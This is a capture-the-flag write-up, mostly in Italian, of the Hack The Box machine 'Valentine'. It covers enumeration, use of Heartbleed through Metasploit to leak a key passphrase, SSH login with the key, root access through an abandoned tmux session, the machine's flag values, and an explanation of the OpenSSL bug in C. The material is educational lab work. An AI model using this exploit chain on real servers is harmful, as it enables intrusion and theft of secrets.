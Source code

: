 #+TITLE: HTB - Valentine
#+AUTHOR: Leonardo Tamiano
#+HTML_HEAD_EXTRA: <style>pre { background-color: #000; color: #bbb; } </style>

* Basic Info
  :PROPERTIES:
  :UNNUMBERED: t
  :END:  
  - *Default IP*: 10.10.10.79
  - *Video*: [[https://youtu.be/6LpTVQQ9qMU][HTB Valentine]]
  - *Table of contents*:
    #+TOC: headlines 2

  --------------------

  A seguire è riportato un breve walkthrough della macchina *Valentine*
  offerta dalla piattaforma Hack the Box.

* Enumeration
** nmap
*** nmap -sC -sV valentine
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 16:07 CET
Nmap scan report for valentine (10.129.121.10)
Host is up (0.051s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-03-27T15:07:45+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.27 seconds    
    #+end_example

*** nmap -p- valentine
   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 16:08 CET
Failed to resolve "valentine_log.org".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.17 seconds
leo@kali:~/repos/valentine$ nmap -p- valentine
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 16:08 CET
Nmap scan report for valentine (10.129.121.10)
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 24.66 seconds
   #+end_example

*** nmap -p 443 --script ssl-heartbleed valentine
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 16:17 CET
Nmap scan report for valentine (10.129.121.10)
Host is up (0.052s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160

Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
    #+end_example

** dirsearch
*** python3 dirsearch.py -r -u http://valentine -e php,txt
    #+begin_example
python3 dirsearch.py -r -u http://valentine -e php,txt

  _|. _ _  _  _  _ _|_    v0.4.0 
 (_||| _) (/_(_|| (_| )

Extensions: php, txt | HTTP method: GET | Threads: 20 | Wordlist size: 7478 | Recursion level: 1

Error Log: /home/leo/repos/dirsearch/logs/errors-21-03-27_16-10-02.log

Target: http://valentine

Output File: /home/leo/repos/dirsearch/reports/valentine/_21-03-27_16-10-03.txt

[16:10:03] Starting: 
[16:10:05] 403 -  291B  - /.htaccess.bak1
[16:10:05] 403 -  291B  - /.htaccess.orig
[16:10:05] 403 -  293B  - /.htaccess.sample
[16:10:05] 403 -  291B  - /.htaccess.save
[16:10:05] 403 -  289B  - /.htaccessBAK
[16:10:05] 403 -  289B  - /.htaccessOLD
[16:10:05] 403 -  290B  - /.htaccessOLD2
[16:10:06] 403 -  281B  - /.htm
[16:10:06] 403 -  282B  - /.html
[16:10:06] 403 -  288B  - /.httr-oauth
[16:10:16] 403 -  285B  - /cgi-bin/     (Added to queue)
[16:10:17] 301 -  304B  - /dev  ->  http://valentine/dev/     (Added to queue)
[16:10:17] 200 -    1KB - /dev/
[16:10:17] 403 -  281B  - /doc/     (Added to queue)
[16:10:18] 403 -  296B  - /doc/en/changes.html
[16:10:18] 403 -  295B  - /doc/stable.version
[16:10:19] 200 -   38B  - /index
[16:10:19] 200 -   38B  - /index.php
[16:10:19] 200 -   38B  - /index.php/login/
[16:10:24] 403 -  290B  - /server-status
[16:10:24] 403 -  291B  - /server-status/     (Added to queue)
[16:10:27] Starting: cgi-bin/
[16:10:29] 403 -  299B  - /cgi-bin/.htaccess.bak1
[16:10:29] 403 -  299B  - /cgi-bin/.htaccess.orig
[16:10:29] 403 -  301B  - /cgi-bin/.htaccess.sample
[16:10:29] 403 -  299B  - /cgi-bin/.htaccess.save
[16:10:29] 403 -  297B  - /cgi-bin/.htaccessBAK
[16:10:29] 403 -  297B  - /cgi-bin/.htaccessOLD
[16:10:29] 403 -  298B  - /cgi-bin/.htaccessOLD2
[16:10:29] 403 -  289B  - /cgi-bin/.htm
[16:10:29] 403 -  290B  - /cgi-bin/.html
[16:10:29] 403 -  296B  - /cgi-bin/.httr-oauth    
    #+end_example

*** python3 dirsearch.py -w ~/repos/wordlists/dirb/common.txt -u http://valentine -e php,txt

    #+begin_example
/home/leo/repos/dirsearch/thirdparty/requests/__init__.py:89: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (3.0.4) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: php, txt | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /home/leo/repos/dirsearch/logs/errors-21-03-27_16-12-29.log

Target: http://valentine

Output File: /home/leo/repos/dirsearch/reports/valentine/_21-03-27_16-12-29.txt

[16:12:29] Starting: 
[16:12:34] 403 -  285B  - /cgi-bin/
[16:12:35] 200 -  552B  - /decode
[16:12:35] 301 -  304B  - /dev  ->  http://valentine/dev/
[16:12:35] 200 -  554B  - /encode
[16:12:37] 200 -   38B  - /index
[16:12:37] 200 -   38B  - /index.php
[16:12:42] 403 -  290B  - /server-status

Task Completed
   #+end_example

** web server
*** valentine/dev/hype_key
    Contains the following (when decoded from hexa to ASCII)
    
    #+begin_example
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
    #+end_example

*** valentine/dev/notes.txt
    #+begin_example
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.     
    #+end_example

*** heartbleed
    When exploiting the ~heartbleed~ vuln among the memory we see from
    the server we also get the following
    
    #+begin_example
    $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
    #+end_example

    when we translate this string from base64 we get
    
    #+begin_example
heartbleedbelievethehype    
    #+end_example

    which is actually the password for the previous RSA key we saw.

** privesc
*** hype
**** user flag
     #+begin_src sh
cat /home/hype/Desktop/user.txt     
     #+end_src
**** root flag

     #+begin_src sh
tmux -S ./devs/dev_sess
cat /root/root.txt
     #+end_src

* Walkthrough
** Scans iniziali
   Effettuando i soliti scans con nmap troviamo le seguenti porte
   aperte
   
   #+begin_example
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
   #+end_example

   Andando nel server siamo troviamo un'immagine che fa vedere un
   cuore che sta sanguinando. Questo è un hint utile per dopo.

   Effettuando poi una semplice enumerazione delle cartelle con
   ~dirsearch~ troviamo invece le seguenti risorse offerte dal web
   server
   
   #+begin_example
[16:12:35] 200 -  552B  - /decode
[16:12:35] 301 -  304B  - /dev  ->  http://valentine/dev/
[16:12:35] 200 -  554B  - /encode
[16:12:37] 200 -   38B  - /index
[16:12:37] 200 -   38B  - /index.php
   #+end_example

** web server
   Andando nella cartella ~/dev~ del web server troviamo due files:

   - Il file ~notes.txt~, che contiene il seguente testo

     #+begin_example
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
     #+end_example

   - Una file contenente dei bytes in esadecimale, che, quando
     decodificati utilizzando un *hex-to-ascii* decoder, danno forma ad
     una chiave privata rsa che è protetta da una password

     #+begin_example
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
     #+end_example
   
** heartbleed
   Il web server messo a disposizione utilizza per supportare il
   protocollo TLS una versione di ~openssl~ vulnerabile alla famosa
   vulnerabilità ~heartbleed~. Questo può essere visto eseguendo il
   seguente comando
   
   *nmap -p 443 --script ssl-heartbleed valentine*
   
   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 16:17 CET
Nmap scan report for valentine (10.129.121.10)
Host is up (0.052s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
  #+end_example

   *Heartbleed* è una famosa vunlerabilità di *OpenSSL*, l'implementazione
   open source del protocollo TLS, utilizzato per supportare la
   comunicazione cifrata HTTPS. Le versioni di OpenSSL vulnerabilità
   ad heartbleed sono le versioni dalla ~1.0.1~ alla ~1.0.1.f~.

   Questa vulnerabilità è conseguenza di come queste versioni di
   OpenSSL gestiscono i messaggi "hearbeat", tipicamente utilizzati
   per verificare se la connessione con il server è ancora up. In
   queste versioni vulnerabili questi messaggi heartbeat non venivano
   processati correttamente, e un attaccante è in grado di inviare un
   singolo byte al server dichiarando però di averne inviati 64k
   bytes. Il server risponde al messaggio inviando indietro 64k
   bytes. La criticità sta nel fatto che i bytes inviati dal server al
   client sono presi in modo non controllato dalla memoria del
   processo, e quindi potrebbero eventualmente includere dei segreti
   del server.

   ---------------

   Per exploitare questa vulnerabilità possiamo utilizzare il seguente
   modulo di ~metasploit~.
   
   #+begin_src sh
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
show options
set verbose true
set RHOSTS <valentine_ip>
run
   #+end_src

   Una volta che lanciamo il modulo otteniamo la seguente risposta.

   #+begin_example
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[*] 10.129.119.210:443    - Leaking heartbeat response #1
[*] 10.129.119.210:443    - Sending Client Hello...
[*] 10.129.119.210:443    - SSL record #1:
[*] 10.129.119.210:443    -     Type:    22
[*] 10.129.119.210:443    -     Version: 0x0301
[*] 10.129.119.210:443    -     Length:  86
[*] 10.129.119.210:443    -     Handshake #1:
[*] 10.129.119.210:443    -             Length: 82
[*] 10.129.119.210:443    -             Type:   Server Hello (2)
[*] 10.129.119.210:443    -             Server Hello Version:           0x0301
[*] 10.129.119.210:443    -             Server Hello random data:       605c3e5d496a2b8de38ca697baffedd224393feff0de224dd6bc89f46d5920e0
[*] 10.129.119.210:443    -             Server Hello Session ID length: 32
[*] 10.129.119.210:443    -             Server Hello Session ID:        8b27bc38edf5a9cbcb83f83a91d8aa14cff400f2abbc0cf6d59fddebdf0e0ced
[*] 10.129.119.210:443    - SSL record #2:
[*] 10.129.119.210:443    -     Type:    22
[*] 10.129.119.210:443    -     Version: 0x0301
[*] 10.129.119.210:443    -     Length:  885
[*] 10.129.119.210:443    -     Handshake #1:
[*] 10.129.119.210:443    -             Length: 881
[*] 10.129.119.210:443    -             Type:   Certificate Data (11)
[*] 10.129.119.210:443    -             Certificates length: 878
[*] 10.129.119.210:443    -             Data length: 881
[*] 10.129.119.210:443    -             Certificate #1:
[*] 10.129.119.210:443    -                     Certificate #1: Length: 875
[*] 10.129.119.210:443    -                     Certificate #1: #<OpenSSL::X509::Certificate: subject=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, issuer=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, serial=#<OpenSSL::BN:0x00007f74dcd448f8>, not_before=2018-02-06 00:45:25 UTC, not_after=2019-02-06 00:45:25 UTC>
[*] 10.129.119.210:443    - SSL record #3:
[*] 10.129.119.210:443    -     Type:    22
[*] 10.129.119.210:443    -     Version: 0x0301
[*] 10.129.119.210:443    -     Length:  331
[*] 10.129.119.210:443    -     Handshake #1:
[*] 10.129.119.210:443    -             Length: 327
[*] 10.129.119.210:443    -             Type:   Server Key Exchange (12)
[*] 10.129.119.210:443    - SSL record #4:
[*] 10.129.119.210:443    -     Type:    22
[*] 10.129.119.210:443    -     Version: 0x0301
[*] 10.129.119.210:443    -     Length:  4
[*] 10.129.119.210:443    -     Handshake #1:
[*] 10.129.119.210:443    -             Length: 0
[*] 10.129.119.210:443    -             Type:   Server Hello Done (14)
[*] 10.129.119.210:443    - Sending Heartbeat...
[*] 10.129.119.210:443    - Heartbeat response, 65535 bytes
[+] 10.129.119.210:443    - Heartbeat response with leak, 65535 bytes
[*] 10.129.119.210:443    - Printable info leaked:
<random garbage>
<random garbage>
<random garbage>
<random garbage>
<random garbage>
[*] 10.129.119.210:443    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed   
   #+end_example

   Se lanciamo il comando varie volte, nella memoria ritornata dal
   server troviamo anche i seguenti dati

   #+begin_example
b9597dc55b21a2759b480fb102f9999a

Gecko/20100101 Firefox/45.0..Referer:
https://127.0.0.1/decode.php..Content-Type:
application/x-www-form-urlencoded..Content-Length:
42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.....bH..M
   #+end_example

   La stringa di interesse è la seguente
   
   #+begin_example
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==   
   #+end_example

   che quando viene decodificata in base64 ci permette di ottenere la
   password ~heartbleedbelievethehype~.

** user flag
   Utilizzando la password appena trovata possiamo leggere la chiave
   privata trovata prima nel seguente modo
   
   #+begin_src sh
openssl rsa -in encrypted_id_rsa      
   #+end_src

   Una volta che abbiamo la chiave rsa possiamo utilizzarla per
   loggare nella macchina come l'utente ~hype~

   #+begin_src sh
ssh -i id_rsa hype@valentine   
   #+end_src   

   L'user flag è quindi disponibile per essere letta nella cartella
   Desktop.
   
   #+begin_src sh
hype@Valentine:~/Desktop$ cat /home/hype/Desktop/user.txt 
   #+end_src

** root flag
   Per quanto riguarda la root flag invece una veloce enumerazione del
   sistema rivela una cartella interessante ~/.devs~ contente una
   sessione ~tmux~ messa in pausa. Per riprendere il controllo della
   sessione possiamo eseguire
   
   #+begin_src sh
tmux -S /.devs/dev_sess
   #+end_src

   una volta eseguita notiamo che siamo diventati l'utente root, in
   quanto la sessione lasciata in pausa era una loggata con root. A
   questo punto quindi possiamo leggere la flag come segue

   #+begin_src sh
root@Valentine:~# cat /root/root.txt 
   #+end_src
   
* Extra
** heartbleed (CVE-2014-0160)
   Per capire il bug heartbleed le seguenti risorse possono essere
   utili:
  
   - [[https://git.openssl.org/gitweb/?p=openssl.git;a=commit;h=96db9023b881d7cd9f379b0c154650d6c108e9a3][Commit in which it was fixed (?)]]
   - [[https://www.cvedetails.com/cve/CVE-2014-0160/#references][CVE-2014-0160]]
   - https://www.exploit-db.com/exploits/32745
   - https://www.exploit-db.com/exploits/32764
   - https://stackabuse.com/heartbleed-bug-explained/

   Il codice di interesse in particolare si trova nella funzione
   ~tls1_process_heartbeat~, presente nel file ~./ssl/t1_lib.c~.

   #+begin_src c
// p points to record data from client
unsigned char *p = &s->s3->rrec.data[0], *pl;
unsigned short hbtype;
unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

/* Read type and payload length first */
hbtype = *p++;
n2s(p, payload); // read 2 bytes from p and put them in payload
pl = p;

// now payload has length of data from client
   #+end_src

   come possiamo vedere, dopo aver letto le informazioni dal messaggio
   il server alloca la memoria in funzione del numero di bytes
   specificati dall'utente.
   
   #+begin_src c
if (hbtype == TLS1_HB_REQUEST)
  {
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 bytes
     ,* message type, plus 2 bytes payload length, plus
     ,* payload, plus padding
     ,*/
    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;		 
   #+end_src

   e poi i dati vengono copiati nel messaggio di risposta.
   
   #+begin_src c
/* Enter response type, length and copy payload */
,*bp++ = TLS1_HB_RESPONSE;
s2n(payload, bp);
memcpy(bp, pl, payload);
bp += payload;
/* Random padding */
RAND_pseudo_bytes(bp, padding);
   #+end_src

   Il problema, che da luogo alla vulnerabilità heartbleed, sta
   proprio in questa ~memcpy~, in quanto copia ~payload~ bytes da ~pl~ a
   ~pb~. Il fatto però è che ~pl~ può puntare ad un buffer che contiene
   molti meno bytes rispetto al numero effettivamente dichiarato dal
   client. In questi casi nella risposta il server copierà dei byte
   presi dalla memoria vicina a quella puntata dal buffer ~pl~.

   ------------------

   Per sistemare la vulnerabilità è stato aggiunto il seguente codice
   all'inizio della funzione, per eliminare il messaggio nei casi in
   cui il payload inviato dal client è troppo piccolo.
   
   #+begin_src c
/* Read type and payload length first */
if (1 + 2 + 16 > s->s3->rrec.length)
  return 0; /* silently discard */
hbtype = *p++;
n2s(p, payload);
if (1 + 2 + payload + 16 > s->s3->rrec.length)
  return 0; /* silently discard per RFC 6520 sec. 4 */
pl = p;  
   #+end_src  

* Legacy                                                           :noexport:
** getting user flag
   Runnin gobuster we can see that there seems to be a note in
   notes.txt saying that the decoder/encoder will have to be fix
   before going live. It explicitly states "Make sure
   encoding/decoding" is only done client-side. This essentialy means
   that the encoding/decoding is probably still done in the server
   side of things. Thus we have to find a way to exploit this fact in
   order to get into the server.

   Also in the ~/dev/~ folder we can see a file ~hype_key~. The file seems
   to be hexadecimal, maybe it was ascii encoded into hex. Indeed it
   was, having decoded the file we can see that it contained data for
   a RSA private key. Saving the ascii contents into a file and
   executing
   
   #+begin_src sh
ssh -i id_rsa valentine@10.10.10.79   
   #+end_src
   
   we are asked for a passphrase for the key ~id_rsa~. To get access we
   thus need to find this passphrase.

   I also figured out that the server is vulnerable to the heartbleed
   bug of openSSH. Using metasploit i've been able to extract some
   memory from the server. However, the only thing that seems to be
   interesting is the string
   
   #+begin_example
b9597dc55b21a2759b480fb102f9999a   
   #+end_example

   I don't know what that is. I thought maybe it was the user flag,
   but i've tried and apparently its not that. Maybe it has something
   to do with the passphrase?

   Actually another string that looks interesting is
   
   #+begin_example
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg   
   #+end_example

   Which when decoded from base64 we get
   
   #+begin_example
heartbleedbelievethehype   
   #+end_example

   So this is actually the passphrase for the ssh key that i found
   before. Using ssh-keygen -p I've managed to remove the passphrase
   so that now the key is decrypted. Now i have to find the user
   account in order to ssh into the machine.

   Ok, the user is actually ~hype~. So doing
   
   #+begin_example
ssh -i id_rsa hype@10.10.10.79   
   #+end_example

   gets you inside!

   Once inside I easily got the user flag which was situated in
   ~/home/hype/Desktop/user.txt~. After that i went to the directory
   ~/var/www/~ which is the root directory for the web server. I can
   finally see the php code that hopefully we can exploit.

** I'm stuck
   [2018-05-03 gio 17:36]
   
   I'm stuck. Cannot see to be able to get to root.

   Th only ting i've noted is that, in the root directory of the
   server, the user hype has access to the img ~omg.jpg~. We probably
   have to do something with it. However, I have no idea what exactly.

** Still stuck
   [2018-05-04 ven 00:03]

   If i try to encode the string ~<?php echo system('whoami') ?>~ I get
   this html code ~<!--?php echo system('whoami') ?-->~.

** Ok, I was stupid
   [2018-05-04 ven 01:48]

   Ok, I was really stupid with this one.

   Apparently there was a tmux session open in ~/.devs/dev_sess~. The
   session was left as root...Thefore, just

   #+begin_src sh
tmux -S dev_sess   
   #+end_src

   Will open up a root shell. Yep, this easy.

* Flags                                                            :noexport:
  - *user*: e6710a5464769fd5fcd216e076961750
  - *root*: f1bb6d759df1f272914ebbc9ed7765b2
